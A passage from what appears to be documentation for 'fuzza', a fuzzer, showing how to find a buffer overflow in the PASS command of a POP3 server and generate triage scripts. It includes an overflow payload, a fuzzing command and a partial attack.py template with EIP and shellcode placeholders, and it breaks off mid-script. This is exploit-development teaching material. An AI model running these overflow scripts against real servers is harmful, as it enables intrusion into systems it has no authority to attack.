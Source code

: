 ```bash
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

#### Generate triaging scripts

Now that you know the application is potentially vulnerable at or before 2700 bytes, you will have
to try to replicate and triage the buffer overflow. In order to do so, you can use `fuzza` to
automatically generate triaging scripts based on your current arguments and findings.

Use the same arguments as before, add the initial length of 2700 bytes (`-l 2700`) and specify
an output directory (`-g <path>`):
```bash
$ fuzza -i ':.*OK POP3.*,USER test\r\n:.*test welcome.*' -p 'PASS ' -s '\r\n' -e ':.*,QUIT\r\n:' -l 2700 -g out/ mail.example.tld 110
```
`fuzza` will then generate three files in `out/` directory based on your command line arguments:

1. `attack.py`  - used to replicate and triage buffer overflow
2. `pattern.py` - used to find offset for EIP
3. `badchars.py` - used to find any bad characters for the exploit shellcode

Based on the above specified command line arguments, the triaging scripts will look as follows:

**`attack.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Unescape P2/P3 and convert to bytes if Python3."""
    # Python2: Unescape control chars
    try:
        return data.decode('string_escape')
    except AttributeError:
        pass
    except UnicodeDecodeError:
        pass
    # Python3: Unescape control chars and convert to byte
    try:
        return data.encode("utf-8").decode('unicode-escape').encode("latin1")
    except UnicodeDecodeError:
        pass

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_total    = 2700                # Start at len_overflow and try out how much can be overwritten
len_overflow = 2696                # Use pattern_create.rb and pattern_offset.rb to find exact offset
len_nop_sled = 0                   # Add x bytes of nops before shellcode for shellcode decoding
eip          = "\x42\x42\x42\x42"  # Change this (Keep in mind to put address in reverse order)
shellcode    = ""

padding = "C"*(len_total - len_overflow - len(str(eip)) - len_nop_sled - len(shellcode))
buffer  = "A"*len_overflow + eip + "\x90"*len_nop_sled + shellcode + padding

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test\r\n'))
    s.recv(1024)
```